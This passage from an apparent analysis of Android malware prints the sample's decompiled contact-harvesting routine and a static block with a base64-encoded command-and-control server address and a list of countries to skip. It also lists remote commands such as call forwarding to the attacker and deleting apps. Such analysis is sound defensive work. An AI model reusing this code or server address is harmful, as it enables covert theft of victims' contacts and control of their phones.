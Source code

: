 The malware creates a loop to collect the contacts by collecting the `id`, `display_name`, and `number` then save this info to `data1` to upload this file to C2 server.

```cs
public class Contacts {
    public static HashMap getContactList(Context context0) {
        ContentResolver contentResolver0 = context0.getContentResolver();
        Cursor cursor0 = contentResolver0.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
        HashMap hashMap0 = new HashMap();
        if((cursor0 == null ? 0 : cursor0.getCount()) > 0) {
            while(cursor0.moveToNext()) {
                String s = cursor0.getString(cursor0.getColumnIndex("_id"));
                String s1 = cursor0.getString(cursor0.getColumnIndex("display_name"));
                if(cursor0.getInt(cursor0.getColumnIndex("has_phone_number")) <= 0) {
                    continue;
                }

                Cursor cursor1 = contentResolver0.query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = ?", new String[]{s}, null);
                while(cursor1.moveToNext()) {
                    hashMap0.put(s1, cursor1.getString(cursor1.getColumnIndex("data1")));
                }

                cursor1.close();
            }
        }

        if(cursor0 != null) {
            cursor0.close();
        }

        return hashMap0;
    }
```

The malware connects to `http://ip-api.com` to retrive the IP, location of the victim. If the IP is located in `listCountryToIgnore`, the malware will ignore the victim's device and don't performe the malicious functions.

```cs
static {
        Intrinsics.checkNotNullExpressionValue("aHR0cDovL3NhdGFuZGVtYW50ZW5pbWllbnRvLmNvbQ==", "TDE(\"aHR0cDovL3NhdGFuZGV…W50ZW5pbWllbnRvLmNvbQ==\")");
        ConstKt.SERVER_ADDRESS = "aHR0cDovL3NhdGFuZGVtYW50ZW5pbWllbnRvLmNvbQ==";
        Intrinsics.checkNotNullExpressionValue("MQ==", "TDE(\"MQ==\")");
        ConstKt.ACCESS_VALUE = "MQ==";
        ConstKt.listCountryToIgnore = CollectionsKt.listOf(new String[]{"AZ", "AM", "BY", "KZ", "KG", "MD", "RU", "TJ", "UZ", "UA", "ID"});
    }

```

We come to the end. There are some other commands such as `delbot` to delete the bot from victim's device, `starthidenpush` to hide pushing notification, `delapp` to delete apps from the device, `call` to call action from the device, `callforward` to forward a phone call to the attacker and more commands found in this malware.
